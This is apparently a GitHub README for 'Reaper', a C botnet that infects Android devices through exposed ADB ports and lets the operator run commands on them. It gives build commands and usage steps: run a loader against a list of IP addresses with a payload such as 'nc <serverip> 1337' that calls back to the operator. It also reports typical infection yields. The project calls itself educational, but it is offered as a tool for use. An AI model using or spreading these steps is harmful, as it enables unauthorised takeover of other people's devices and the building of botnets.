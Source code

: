 <h1 align="center">
	<img src="https://static.thenounproject.com/png/4050176-200.png" width="150px"><br>
    Reaper - An ADB-based botnet written in C.
</h1>
<p align="center">
	Reaper is an ADB-based botnet that lets you control the devices you infect, execute commands, and contains extra tools for playing around. It isn't just limited 
	to ADB, it can be used as a telnet botnet, or a regular botnet.
</p>

<p align="center">
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Version-1.0.0-7DCDE3?style=for-the-badge" alt="Version">
     </a>
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Deno-1.0.0+-7DCDE3?style=for-the-badge" alt="Node">
     </a>
</p>

## Why?

Here are few reasons why I made this:
```
- I wanted to learn more about botnets.
- I wanted to make something that will help other people understand and learn more about botnets.
- I wanted to make my own from scratch, because most botnets that are available on github are all variants of mirai or qbot.
```
Extra Facts:
```
- Yes, I know, I could've used epoll, but I didn't want to make things super-complicated and annoying.
- No, this does not contain any DDoS methods, If you want to customize this and add your own, then you are free to do so.
```

## Installation
```
gcc -o reaper reaper.c -lpthread -lcurl
gcc -o client client.c
```

## Usage
After you have authenticated with the botnet and are waiting for connections, run this command -> `python3 loader.py droid.txt`. Make sure you have edited in your payload in the loader script. (It can be something as simple as `nc <serverip> 1337`) Wait around 5-15 minutes, and you should have devices connected. Even though the custom list I made is small and only has 96 IP's, on average, it pulls around 25 - 50 devices. Please remember, you don't have to limit yourself to only android devices, if you want to use a telnet list, it will also work.

## Screenshots
![Screenshot_2021-08-21-05-36-18_922x559](https://user-images.githubusercontent.com/86132648/130317740-f9882527-6632-4529-b776-dd224e7bc6ef.png)
![Screenshot_2021-08-21-05-01-41_816x262](https://user-images.githubusercontent.com/86132648/130334806-4fe08963-f442-4104-bd5a-0f6c7b1b3741.png)

## Credits
```
https://github.com/0x1CA3
```
### Contributions 🎉
###### All contributions are accepted, simply open an Issue / Pull request.
